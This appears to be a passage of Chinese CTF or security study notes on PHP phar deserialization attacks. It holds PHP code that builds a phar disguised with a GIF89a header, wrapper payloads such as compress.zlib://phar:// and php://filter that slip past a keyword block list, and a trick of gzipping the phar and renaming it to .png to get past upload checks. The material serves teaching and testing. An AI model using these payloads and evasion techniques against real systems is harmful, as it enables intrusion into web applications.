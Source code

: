 ```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![](../daydayup.assets/image-20230717012512791.png)

#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法

```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）

![](../daydayup.assets/image-20230717014558838.png)
